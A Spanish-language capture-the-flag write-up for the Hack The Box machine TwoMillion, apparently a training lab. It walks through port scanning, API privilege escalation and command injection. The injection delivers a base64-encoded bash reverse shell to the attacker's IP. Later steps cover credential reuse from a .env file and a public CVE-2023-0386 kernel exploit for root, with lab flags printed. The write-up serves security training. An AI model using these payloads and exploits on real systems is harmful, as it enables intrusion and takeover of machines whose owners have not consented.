




# Introduction
**Maquina:** TwoMillion
**IP:** 10.10.11.221
**Local:** 10.10.14.7

```shell 
$ target=10.10.11.221
$ echo $target 
10.10.11.221
```
# Reconocimiento 
```shell 
$ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG allPorts 10.10.11.221
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.221 ()	Status: Up
Host: 10.10.11.221 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
# Nmap done at Wed Apr 24 00:33:51 2024 -- 1 IP address (1 host up) scanned in 289.97 seconds

```

```shell 
$ nmap -sCV -p 22,80 -oN targeted 10.10.11.221
Nmap scan report for 2million.htb (10.10.11.221)
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-title: Hack The Box :: Penetration Testing Labs
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr 24 14:14:14 2024 -- 1 IP address (1 host up) scanned in 14.61 seconds
```

# Scanner 

``` python
#!/usr/bin/env python3

from pwn import *
from termcolor import colored
from scapy.all import *

import signal
import sys
import time
import logging
import threading

logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

def def_handler(sig, frame):
    print(colored(f"\n\n[!] Exiting...\n ", 'red'))
    p1.failure("Scan aborted")
    sys.exit(1)

# CTRL + C
signal.signal(signal.SIGINT, def_handler)

p1 = log.progress("TCP Scan")
p1.status("Scaning ports...")

def scanPort(ip, port):
    src_port = RandShort()
    try:
        response = sr1(IP(dst=ip)/TCP(sport=src_port, dport=port, flags="S"), timeout=2, verbose=0)
        if response is None:    
            return False
        elif response.haslayer(TCP) and response.getlayer(TCP).flags == 0x12:
            send(IP(dst=ip)/TCP(sport=src_port, dport=port, flags="R"), verbose=0) #reset packet
            return True
        else:
            return False
    except Exception as e:
        log.failure(f"Error scanning {ip} on port {port}: {e}")
        sys.exit(1)

def thread_func(ip, port):
    response = scanPort(ip, port)
    if response:
        log.info(f"Port {port} - OPEN in {ip}") 

def main(ip, ports, endPort):
    threads = []
    time.sleep(2)

    for port in ports:
        p1.status(f"Scan progress: [{port}/{endPort}]")

        thread = threading.Thread(target=thread_func, args=(ip,port))
        thread.start()
        threads.append(thread)

    for thread in threads:
        thread.join()

    p1.success("Scan completed")

if __name__ == '__main__':
    if len(sys.argv) != 3:
        print(colored(f" [!] Use: {colored('python3','blue')} {colored(sys.argv[0],'green')} {colored('<ip> <port-range>','yellow')}", 'red'))
        sys.exit(1)
    
    targetIp = sys.argv[1]
    portRange = sys.argv[2].split("-")
    startPort = int(portRange[0])
    endPort = int(portRange[1])

    ports = range(startPort,endPort+1)
    main(targetIp, ports, endPort)
```

Ejecutamos el scanner 
``` bash
$ python3 scanner.py 10.10.11.221 2-2000
[+] TCP Scan: Scan completed
[*] Port 22 - OPEN in 10.10.11.221
[*] Port 80 - OPEN in 10.10.11.221
```

Añadimos en `/etc/hosts` el nombre de dominio 2million.htb.
```bash
$ echo "10.10.11.221 2million.htb" | sudo tee -a /etc/hosts
# Host addresses
127.0.0.1  localhost

# Others
10.10.11.221 2million.htb
```
# Pagina de Invitacion

**1ra Forma** 

Vamos a la ruta `2million.htb/invite`. En la consola si ejecutamos la funcion `makeInviteCode()`, nos aparece una "data" con encriptacion `ROT13`.



Creamos el script `rot13.py` para desencriptar el mensaje.
```bash
$ python3 rot13.py
Encrypted text:
 Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr
Decrypted text:
 In order to generate the invite code, make a POST request to /api/v1/invite/generate
```
**2da Forma** 
En la misma ruta analizamos el codigo fuente y vemos el uso del script `inviteapi.min.js` 

```bash
eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}',24,24,'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'),0,{}))
```
Deofuscamos ese script usando la pagina `https://lelinhtinh.github.io/de4js/` 



obtenemos el codigo
```javascript
function verifyInviteCode(code) {
    var formData = {
        "code": code
    };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function (response) {
            console.log(response)
        },
        error: function (response) {
            console.log(response)
        }
    })
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function (response) {
            console.log(response)
        },
        error: function (response) {
            console.log(response)
        }
    })
}
```
Analizando el POST request `/api/v1/invite/how/to/generate` usando cURL.

```bash
$ curl -sX POST http://2million.htb/api/v1/invite/how/to/generate | jq
{
  "0": 200,
  "success": 1,
  "data": {
    "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/1/vaivgr/trarengr",
    "enctype": "ROT13" 
  },
  "hint": "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
}
```
obtenemos el mismo mensaje con enctype `ROT13`

```
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```

# Codigo de invitacion
```bash
$ curl -sX POST http://2million.htb/api/v1/invite/generate | jq
{
  "0": 200,
  "success": 1,
  "data": {
    "code": "QVREQVgtNVBRRlgtREM3SUItRUxJUko=",
    "format": "encoded"
  }
}
```

Por el `=` al final de `"code": "QVREQVgtNVBRRlgtREM3SUItRUxJUko="` asumo que esta codificado en Base64 
```bash
$ echo 'QVREQVgtNVBRRlgtREM3SUItRUxJUko=' | base64 -d; echo
ATDAX-5PQFX-DC7IB-ELIRJ
```
Usando las bondades de `jq` podemos obtener directamente el code
```bash
$ curl -sX POST http://2million.htb/api/v1/invite/generate | jq -r '.data.code' | base64 -d; echo
ATDAX-5PQFX-DC7IB-ELIRJ
```

Ingresamos el codigo de invitacion y nos envia a la pagina de registro llenamos el formulario.



Esto nos redirige a `/login`, nos logueamos y entramos al dashboard `/home`



# Enumerando la API

Como ya tengo un usuario voy a intentar enumerar la API , para ver que endpoints tiene. Obtengo para ello la cookie `PHPSESSID` con el navegador.

```bash
$ curl -sX GET "http://2million.htb/api/v1" -H "Cookie: PHPSESSID=qtp1ns4u7s0ackktj05qrovhuc" | jq
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```
Chequeamos si mi usuario es admin.
```bash
$ curl -s -X GET "http://2million.htb/api/v1/admin/auth" --cookie "PHPSESSID=qtp1ns4u7s0ackktj05qrovhuc" | jq
{
  "message": false
}
```
Si intento generar una VPN no tengo permiso (`405 Method Not Allowed`)
```bash
$ curl -sv -X GET "http://2million.htb/api/v1/admin/vpn/generate" --cookie "PHPSESSID=qtp1ns4u7s0ackktj05qrovhuc" 
*   Trying 10.10.11.221:80...
* Connected to 2million.htb (10.10.11.221) port 80 (#0)
> GET /api/v1/admin/vpn/generate HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/7.88.1
> Accept: */*
> Cookie: PHPSESSID=qtp1ns4u7s0ackktj05qrovhuc
>
< HTTP/1.1 405 Method Not Allowed
< Server: nginx
< Date: Thu, 25 Apr 2024 22:05:35 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
<
* Connection #0 to host 2million.htb left intact

```

Usando el 3er endpoint administrativo.
```bash
$ curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" --cookie "PHPSESSID=qtp1ns4u7s0ackktj05qrovhuc" | jq 
{
  "status": "danger",
  "message": "Invalid content type."
}
```

Le agregamos el content type , y nos mostrara el parametro q falta.
```bash
$ curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" --cookie "PHPSESSID=qtp1ns4u7s0ackktj05qrovhuc" --header "Content-Type: application/json" | jq 
{
  "status": "danger",
  "message": "Missing parameter: email"
}
```

haciendo ensayo y error llegamos a cargar la data que necesita

```bash
$ curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" --cookie "PHPSESSID=58auj4sq06rp88tngeg8gb38tk" --header "Content-Type: application/json" --data '{"email":"marcomania@s4vitar.com", "is_admin": 1}' | jq 
{
  "id": 14,
  "username": "marcomania",
  "is_admin": 1
}
```

Ahora nuestro usuario es admin.
```bash
$ curl -s -X GET "http://2million.htb/api/v1/admin/auth" --cookie "PHPSESSID=qtp1ns4u7s0ackktj05qrovhuc" | jq
{
  "message": true
}
```

# Ataque

Regresemos a `/api/v1/admin/vpn/generate`  ahora que tenemos permisos.
```bash
$ curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" --cookie "PHPSESSID=qtp1ns4u7s0ackktj05qrovhuc" --header "Content-Type: application/json" | jq
{
  "status": "danger",
  "message": "Missing parameter: username"
}
```
Nos solicita un `username` para generar la vpn , le ingresamos un usuario `test` y nos genera una VPN correctamente.
```bash
$ curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" --cookie "PHPSESSID=qtp1ns4u7s0ackktj05qrovhuc" --header "Content-Type: application/json" --data '{"username":"test"}'
```

vamos a inyectar codigo usando el parametro `username`
```bash
$ curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" --cookie "PHPSESSID=qhtpkbilmv3ps0tunk2oruq748" --header "Content-Type: application/json" --data '{"username":"test;whoami;"}'
www-data
```

# Reverse Shell

Vamos a crear el payload con nuestra IP
```bash 
$ bash -i >& /dev/tcp/10.10.14.7/1234 0>&1
```

Lo generamos en Base64 para utilizarlo 
```bash 
$ echo 'bash -i >& /dev/tcp/10.10.14.7/1234 0>&1' | base64 ; echo
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43LzEyMzQgMD4mMQo=
```

En otra terminal iniciamos la escucha con Netcat
```bash 
$ nc -lvp 1234
```

Y lanzamos otra vez 

```bash 
$ curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=qhtpkbilmv3ps0tunk2oruq748" --header "Content-Type: application/json" --data '{"username":"test;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43LzEyMzQgMD4mMQo= | base64 -d | bash;"}'

nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.14.7] from 2million.htb [10.10.11.221] 46832
bash: cannot set terminal process group (1174): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$ 
```

Hacemos un tratamiento de nuestra nueva consola , para que se pueda trabajar mejor 
```bash 
$ script /dev/null -c bash #pseudo consola
$ (CTRL + Z)
$ stty raw -echo; fg
$ export TERM=xterm
$ export SHELL=bash # opcional

$ stty size
$ stty rows 53 columns 185
```

# Lateral Movement 

Enumerando el directorio web  vemos el archivo `.env`
```bash 
www-data@2million:~/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```
Al parecer hay un usuario admin, verifiquemos en `/etc/passwd`
```bash 
www-data@2million:~/html$ cat /etc/passwd
...
mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
admin:x:1000:1000::/home/admin:/bin/bash
memcache:x:115:121:Memcached,,,:/nonexistent:/bin/false
```
Intentamos loguearnos mediante SSH con el usuario `admin` y el pass `SuperDuperPass123`
```bash 
$ ssh admin@2million.htb
You have mail.
Last login: Tue Jun  6 12:43:11 2023 from 10.10.14.6
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@2million:~$ 
```

# User flag
```bash 
$ ls
user.txt
$ cat user.txt
f0cb8052e860b08d4bef5509fefa5825
```

# Busqueda de privilegios

Busco que archivos soy propietario
```bash 
$ find / -user admin 2>/dev/null | grep -vE "sys|proc|run"
/home/admin
/home/admin/.cache
/home/admin/.cache/motd.legal-displayed
/home/admin/.ssh
/home/admin/.profile
/home/admin/.bash_logout
/home/admin/.bashrc
/var/mail/admin
/dev/pts/1
```

Veo que tengo acceso a `/var/mail/admin` y al loguearme tmb me salio un mensaje `You have mail.`
```bash 
$ cat /var/mail/admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

Se nos menciona en el correo que se ha detectado un exploit `verlayFS / FUSE` para nuestro kernel, verificamos la version de nuestro Kernel `5.15.70`. Hacemos una busqueda de google con los keywords `overlays fuse exploit`. CVE-2023-0386,

```bash 
$ uname -a
Linux 2million 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux

$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 22.04.2 LTS
Release:	22.04
Codename:	jammy
```

En github buscamos un exploit rapido de usar `https://github.com/sxlmnwb/CVE-2023-0386`, lo descargo localmente y lo comprimo.

```bash 
$ git clone https://github.com/sxlmnwb/CVE-2023-0386
$ zip -r cve.zip CVE-2023-0386
```

Luego lo envio a la maquina victima en carpeta `temp` de `admin`
```bash 
$ scp cve.zip admin@2million.htb:/tmp
cve.zip

$ cd /tmp
$ unzip cve.zip
```

Seguimos las instrucciones del Github y generamos los ejecutables 
```bash 
$ cd /tmp/CVE-2023-0386/
$ make all

admin@2million:/tmp/CVE-2023-0386$ ls
exp  exp.c  fuse  fuse.c  gc  getshell.c  Makefile  ovlcap  README.md  test
``` 

Se generan `exp` `fuse` y `gc`

Ejecutamos los comandos del github
```bash
$ ./fuse ./ovlcap/lower ./gc 
[+] len of gc: 0x3ee0
[1] 6153

$ ./exp
uid:1000 gid:1000
[+] mount success
[+] readdir
[+] getattr_callback
/file
total 8
drwxrwxr-x 1 root   root     4096 Apr 27 16:14 .
drwxr-xr-x 6 root   root     4096 Apr 27 16:14 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] open_callback
/file
[+] read buf callback
offset 0
size 16384
path /file
[+] open_callback
/file
[+] open_callback
/file
[+] ioctl callback
path /file
cmd 0x80086601
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

$ root@2million:/tmp/CVE-2023-0386# whoami
root
```
# Root flag
El exploit ha funcionado ahora somos root , nos dirigimos a la carpeta `/root/` para obtener el flag final 

```bash 
$ cd /root 
$ ls 
root.txt  snap  thank_you.json

$ cat root.txt
f907cf892701330b100b270d964f786f
```
<div style="text-align: center;">
  
</div>


# Thank you
Hay un archivo adicional `thank_you.json`. Vemos `"encryption": "xor"`, `"encryption_key": "HackTheBox"`,`"encoding": "base64"`.
Con ayuda de Chatgpt generamos un pequeño script en python para obtener el mensaje.

```python
import base64

def xor_decrypt(data, key):
    decrypted = b''
    for i in range(len(data)):
        decrypted += bytes([data[i] ^ key[i % len(key)]])
    return decrypted

# Datos del JSON
json_data = {
    "encryption": "xor",
    "encryption_key": "HackTheBox",
    "encoding": "base64",
    "data": "SOMEDATA=="
}

# Decodificar desde Base64
decoded_data = base64.b64decode(json_data["data"])

# Desencriptar usando XOR
encryption_key = json_data["encryption_key"].encode()
decrypted_data = xor_decrypt(decoded_data, encryption_key)

# Imprimir los datos desencriptados como cadena de texto
print(decrypted_data.decode())
```
Ejecutamos el scrip para obtener el mensaje 
```bash 
$ python3 thank_you.py
Dear HackTheBox Community,

We are thrilled to announce a momentous milestone in our journey together. With immense joy and gratitude, we celebrate the achievement of reaching 2 million remarkable users! This incredible feat would not have been possible without each and every one of you.

From the very beginning, HackTheBox has been built upon the belief that knowledge sharing, collaboration, and hands-on experience are fundamental to personal and professional growth. Together, we have fostered an environment where innovation thrives and skills are honed. Each challenge completed, each machine conquered, and every skill learned has contributed to the collective intelligence that fuels this vibrant community.

To each and every member of the HackTheBox community, thank you for being a part of this incredible journey. Your contributions have shaped the very fabric of our platform and inspired us to continually innovate and evolve. We are immensely proud of what we have accomplished together, and we eagerly anticipate the countless milestones yet to come.

Here's to the next chapter, where we will continue to push the boundaries of cybersecurity, inspire the next generation of ethical hackers, and create a world where knowledge is accessible to all.

With deepest gratitude,

The HackTheBox Team
```


